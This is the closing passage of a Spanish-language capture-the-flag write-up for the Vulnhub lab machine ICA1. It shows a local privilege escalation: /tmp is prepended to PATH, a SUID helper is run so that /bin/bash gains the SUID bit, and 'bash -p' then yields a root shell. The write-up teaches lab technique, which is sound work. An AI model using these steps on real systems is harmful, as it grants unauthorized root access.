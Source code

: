 ```
export PATH=/tmp:$PATH
```

Añadiremos la ruta **/tmp** para que el sistema ejecute tome en cuanta los ejecutables de esa ruta

Si volvemos a ejecutar `/opt/get_access` veremos lo siguiente:

```
dexter@debian:/tmp$ /opt/get_access 
All services are disabled. Accessing to the system is allowed only within working hours.

dexter@debian:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1234376 Aug  4  2021 /bin/bash
dexter@debian:/tmp$
```

Una vez `/bin/bash` tenga el permiso SUID, con el comando **bash -p** tendremos acceso al usuario **root**

```bash
dexter@debian:/tmp$ bash -p
bash-5.1#
```

Espero que te haya gustado esta primera máquina de **Vulnhub** llamada ICA1 :), !Nos vemos en la siguiente¡
